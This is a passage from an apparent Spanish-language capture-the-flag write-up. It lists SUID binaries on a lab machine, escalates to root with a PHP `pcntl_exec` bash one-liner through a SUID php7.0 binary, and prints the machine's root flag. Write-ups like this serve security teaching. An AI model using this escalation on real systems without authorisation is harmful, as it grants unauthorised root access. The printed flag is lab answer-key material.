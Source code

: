 ```
   182372    464 -rwsr-xr-x   1 root     root              473576 Aug  4  2023 /usr/lib/openssh/ssh-keysign
   158584    144 -rwsr-xr-x   1 root     root              146888 May 29  2023 /usr/lib/snapd/snap-confine
   132445     16 -rwsr-xr-x   1 root     root               14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   131559     56 -rwsr-sr-x   1 daemon   daemon             55560 Nov 12  2018 /usr/bin/at
   132263    164 -rwsr-xr-x   1 root     root              166056 Apr  4  2023 /usr/bin/sudo
   132235     40 -rwsr-xr-x   1 root     root               39144 Feb  7  2022 /usr/bin/umount
   131891     56 -rwsr-xr-x   1 root     root               55528 Feb  7  2022 /usr/bin/mount
   131633     52 -rwsr-xr-x   1 root     root               53040 Nov 29  2022 /usr/bin/chsh
   132163     68 -rwsr-xr-x   1 root     root               67816 Feb  7  2022 /usr/bin/su
   131627     84 -rwsr-xr-x   1 root     root               85064 Nov 29  2022 /usr/bin/chfn
   131756     88 -rwsr-xr-x   1 root     root               88464 Nov 29  2022 /usr/bin/gpasswd
   151439   4432 -rwsr-xr-x   1 root     root             4537352 Sep  2  2023 /usr/bin/php7.0
   131905     44 -rwsr-xr-x   1 root     root               44784 Nov 29  2022 /usr/bin/newgrp
   131959     32 -rwsr-xr-x   1 root     root               31032 Feb 21  2022 /usr/bin/pkexec
   131938     68 -rwsr-xr-x   1 root     root               68208 Nov 29  2022 /usr/bin/passwd
   131740     40 -rwsr-xr-x   1 root     root               39144 Mar  7  2020 /usr/bin/fusermount
```

Veremos muchas cosas interesantes y entre ellas varias escaladas de privilegios, como estas lineas de aqui:

```
151439   4432 -rwsr-xr-x   1 root     root   4537352 Sep  2  2023 /usr/bin/php7.0
131959     32 -rwsr-xr-x   1 root     root   31032 Feb 21  2022 /usr/bin/pkexec
```

Pero vamos a escalar con `php7.0` de esta forma:

```shell
CMD="/bin/bash"
php -r "pcntl_exec('/bin/bash', ['-p']);"
```

Info:

```
bash-5.0# whoami
root
```

Veremos que seremos el usuario `root` por lo que leeremos la `flag` de `root`.

> root.txt

```

            ___.............___
         ,dMMMMMMMMMMMMMMMMMMMMMb.
        dMMMMMMMMMMMMMMMMMMMMMMMMMb
        |        | -_  - |        |
        |        |_______|___     |
        |     ___......./'.__`\   |
        |_.-~"               `"~-.|
        7\         _...._        |`.
       /  l     .-'      `-.     j  \
      :   .qp. / __________ \ .qp.   :
      |  d8888b |          | d8888b  |
  .---:  `Y88P|_|__________|_|Y88P'\/`"-.
 /     : /,------------------------.:    \
:      |`.    | | [_FLAG_] ||     ,'|     :
`\.____|  `.  : `.________.'|   ,'  |____.'
  MMMMM|   |  |`-.________.-|  /    |MMMMM 
 .-------------`------------'-'-----|-----.
(___HMV{6ff5f1b9238a96b3c3871c67a215ec80}__)
  MMMMMM                            MMMMMM 
```